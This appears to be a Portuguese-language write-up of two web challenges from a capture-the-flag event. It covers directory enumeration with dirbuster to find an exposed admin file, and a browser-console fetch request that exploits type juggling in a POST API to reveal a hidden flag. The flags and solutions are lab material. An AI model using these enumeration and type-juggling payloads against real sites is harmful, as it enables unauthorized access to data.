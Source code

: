 # Capture The Flag - Menina de CyberSec

# CTF

CTF (Capture The Flag) realizado entre os dias 12 e 15 de Novembro, no servidor Menina de CyberSec.

# WEB

![](/meninaCyberSec/pics/web2.png)

## Desafio: Não odeio o JavaScript! :triangular_flag_on_post

<code>formato da flag **MCS{xxxx_xxxx_xxxx_xxx}**</code>

```
Esse desafio tinha um arquivo .txt e ao abri-lo, tinha endereço do site para analisarmos.
```

### Análise

1. Analisei o o page source
2. Na pagina tinha dois buttons, cliquei em ambos, com o console e network abertos.

O segundo button me chamou atenção. Ao clicar aparecia a seguinte mensagem na página

```bash
Secrets can only be accessed by admin
```

A palavra **admin** poderia me levar para algum diretório. Ou poderia existir uma URL de login</br>
Tentei acessa a URL com o <strong>/admin</strong> e retornou:

```bash
403 Forbidden
```

Status code 403 de não permitido. Diretório existe, mas eu não tenho permissão. </br>

Utilizando a ferramenta <strong>dirbuster</strong>, me retornou algums diretórios <strong>200</strong>, ou seja diretórios que não precisam de autorização para acessar.</br>

```bash
200 /admin/admin.js
200 static/js/index.js
```

Acessei url/admin/admin.js e nesse arquivo estava a flag

> "MCS{3num3r4t10n_F0rfun_4nd_Pr0f1t}"

## Desafio: Nosferatu :triangular_flag_on_post

<code>Formato da flag: MCS{xxxx_xxxx_xxxx_xxxx_xxxx}</code>

Esse era a continuação.</br>

Como tinha me retornado a url <strong>static/js/index.js</strong>, eu acessei e me retornou o diretório, com a regra de negócio da aplicação. </br>

## Análise

Analisei o código index.js e vi que na regra de negócio tinha uma requisição POST **/api/getfacts** </br
>
Na página do button 2, não aparece o array com as informações. Caindo diretamente no **else**

```js
 facts_html = '<div></div><div class="error">Secrets can only be accessed by admin</div>';
```

Ou seja, o body tá indo vazio/false.

```js
const loadfacts = async (fact_type) => {
    await fetch('/api/getfacts', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({ 'type': fact_type })
    })
        .then((response) => response.json())
        .then((res) => {
            if (!res.hasOwnProperty('facts')){
                populate([]);
                return;
            }

            populate(res.facts);
        });
}
```

O que eu preciso fazer é passar como true e rodar o scritp no console do navegador.

```js
fetch('/api/getfacts', {
  'method': 'POST',
  'headers': {
    'Content-Type': 'application/json'
  },
  'body': "{\"type\":true}"
}).then((response)=>response.json()).
    then((response)=>console.log(response));
```

![](/meninaCyberSec/pics/flga2.png)

E a flag foi retornada:

> MCS{0wn3d_fl4g_f0r_typ3_Juggl1ng}
